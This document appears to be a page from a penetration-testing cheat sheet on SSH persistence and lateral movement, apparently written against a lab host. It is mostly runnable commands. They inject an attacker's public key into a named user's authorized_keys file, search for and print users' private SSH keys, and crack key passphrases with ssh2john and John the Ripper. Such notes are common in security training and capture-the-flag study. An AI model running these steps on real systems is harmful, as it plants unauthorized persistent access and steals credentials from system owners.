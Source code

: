```yaml
---
icon: swords
---
```


# Pivoting/Lateral Movement

## <mark style="color:purple;">Persistence</mark>

***

{% hint style="info" %}
## <mark style="color:purple;">Pivoting to SSH</mark>

### <mark style="color:purple;">SSH Key Injection</mark>

{% code title="Generate SSH Keys" %}
```sh
ssh-keygen -t ed25519 -f key
```
{% endcode %}

* <mark style="color:purple;">To make sure the execute properly give it restricted permissions:</mark>

```sh
chmod 600 id_rsa
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`authorized_keys`**</mark> <mark style="color:purple;">file doesn't exist create one with your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" > /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Other wise append your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" >> /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Now just connect with your private key:</mark>

```sh
ssh -i key dvir@10.10.11.8
```

### <mark style="color:purple;">Using Existing keys</mark>

{% code title="Look for the private key" %}
```bash
find /home/user -name "id_*" -exec cat {} \;
```
{% endcode %}

* <mark style="color:purple;">Once you find it, just copy the key in your</mark> <mark style="color:orange;">**`.ssh`**</mark> <mark style="color:purple;">directory and ssh in.</mark>
* <mark style="color:purple;">Also you can, check If the Corresponding private/public Key is known by using this</mark> [<mark style="color:orange;">**`repo`**</mark>](https://github.com/rapid7/ssh-badkeys)<mark style="color:purple;">.</mark>

### <mark style="color:purple;">Crack the passphrase</mark>&#x20;

***

* <mark style="color:purple;">Once you got the private key, you can use</mark> <mark style="color:orange;">**`ssh2john`**</mark> <mark style="color:purple;">to generate a hash from the key:</mark>

```bash
ssh2john private_key > private_key.hash
```

* <mark style="color:purple;">Then feed this hash into</mark> <mark style="color:orange;">**`John the Ripper`**</mark><mark style="color:purple;">:</mark>

```bash
john private_key.hash --wordlist=/path/to/wordlist
```
{% endhint %}

